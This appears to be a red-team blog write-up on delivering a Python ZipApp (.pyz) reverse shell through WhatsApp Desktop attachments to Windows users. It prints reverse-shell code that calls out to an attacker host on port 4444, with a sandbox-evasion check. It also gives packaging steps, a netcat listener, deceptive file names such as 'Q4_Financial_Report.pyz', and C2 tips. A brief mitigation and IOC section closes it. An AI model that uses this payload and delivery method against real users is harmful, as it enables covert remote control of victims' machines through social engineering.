



## Executive Summary

This write-up describes an attack vector focused on **Initial Access** and **Evasion**, exploiting how WhatsApp Desktop handles attachments and how the Python interpreter executes compressed packages (`.pyz`).

The technique allows an attacker to execute arbitrary code (Reverse Shell) on Windows environments where Python 3 is present, without triggering conventional Windows Defender alerts, as the payload is executed through a legitimate and signed binary (python.exe).

---

## Technical Overview

Unlike traditional executables (.exe) or pure scripts (.py), the Python **ZipApp (.pyz)** format is often overlooked by basic attachment filters and endpoint solutions.

### Attack Vector
1.  **Target:** Corporate users/developers with Python 3 installed.
2.  **Delivery:** The file is sent as a "Document" via WhatsApp Desktop.
3.  **Execution:** WhatsApp does not block the `.pyz` extension, allowing the user to open it directly, triggering the Python interpreter.

---

## Phase 1: Payload Development

To establish persistence and interactivity, we need a stable shell. Instead of relying on heavy C2 frameworks that might get flagged, we opt for a lightweight, native Python socket implementation.

### Sandbox Evasion Logic
The script below implements a basic TCP connection but includes a critical **Evasion** technique: checking the CPU count (`os.cpu_count()`). Most automated analysis sandboxes allocate minimal resources (1 or 2 cores). If the script detects low resources, it terminates immediately to avoid detection.

```python
import os
import socket
import subprocess

# Simple Sandbox Evasion: 
# If the machine has 2 or fewer cores, it's likely a VM/Sandbox. Abort.
if os.cpu_count() <= 2:
 quit()

HOST = 'YOUR_IP'
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(str.encode("[*] Connection Established!"))

while 1:
 try:
   s.send(str.encode(os.getcwd() + "> "))
   data = s.recv(1024).decode("UTF-8")
   data = data.strip('\n')
   if data == "quit": 
     break
   if data[:2] == "cd":
     os.chdir(data[3:])
   # ... (truncated for brevity)
```
> **⚠️ SECURITY NOTICE:** The payload displayed above has been partially obfuscated and truncated for safety and educational purposes. The complete, fully functional source code is available on our repository

**[ACCESS FULL REPOSITORY ON GITHUB ->](https://github.com/serros404/whatsapp-pyz-reverseshell)**

## Phase 2: Weaponization (ZipApp Packaging)
To transform the script into a disguised Python "executable", we use the zipapp module. This compresses the script into a single file that Windows automatically associates with the Python interpreter.

```bash
# Packaging the script into the .pyz format
python3 -m zipapp reverseshell.py -o reverseshell.pyz
```


This format is advantageous because:

* It bypasses filters that block .exe or .bat files.

* Windows Defender focuses on the python.exe process, which is legitimate.

## Phase 3: Command & Control (C2) Setup
On the attacker's side, we prepare a listener using Netcat to receive the reverse connection.

```bash
nc -lvnp 4444
```

> **Red Team Tip:** For real operations, use Metasploit (multi/handler) or Sliver C2 for TLS support, avoiding detection by network traffic analysis (IDS/IPS).

## Phase 4: Delivery & Execution

The payload is delivered via WhatsApp Desktop as a generic "Document". Since WhatsApp does not flag `.pyz` files as dangerous (unlike `.exe` or `.vbs`), the transfer occurs without warnings.


*(Fig 3. Successful delivery of the payload via WhatsApp Desktop)*

In this Proof of Concept, we executed the file named `reverseshell.pyz`. When the user clicks "Open", Windows implicitly calls the Python interpreter to execute the archive:

```cmd
python.exe reverseshell.pyz
```
The connection is silently established in the background, granting the attacker a shell instance.

> **💡 Red Team Tradecraft:**
> While we used an explicit name for educational clarity (`reverseshell.pyz`), in a real-world engagement, adversaries utilize **Social Engineering** to mask the payload.

Common naming conventions include:
* `Q4_Financial_Report.pyz`
* `Salary_Bonus_Plan.pyz`
* `System_Update_Patch.pyz`

## PoC - Proof of Concept

Below, we demonstrate successful execution, UAC bypass (if applicable), and file system navigation on the victim's machine.

<div class="video-wrapper">
  <video controls width="100%">
    <source src="/uploads/red-team/offensive-techniques/whatsapp-pyz-reverseshell/whatsapp-pyz-reverseshell.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

---

## Detection & Mitigation (Blue Team Perspective)

As security professionals, we must understand how to mitigate this vector:

*   **EDR/EPP Policy:** Monitor child processes of `python.exe` that initiate external network connections.
*   **File Association:** Disassociate the `.pyz` extension from the Python interpreter on non-technical user machines.
*   **Network Filtering:** Block outbound traffic on non-standard ports (like `4444`) to unknown external IPs.

---

## Indicators of Compromise (IOCs)

*   **Network:** Outbound connections originating from `python.exe` to unusual ports.
*   **Files:** Creation of files with a `.pyz` extension in the WhatsApp download folder.
*   **Registry:** Persistence created in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` pointing to Python scripts.

---

## Conclusion

The use of less common formats like `.pyz` via messaging applications is a reminder that the attack surface is vast. The success of this attack relies on user trust in the messaging app and the presence of development tools (Python) on work machines.

> **⚠️ Disclaimer:** This content is for educational purposes only and authorized penetration testing.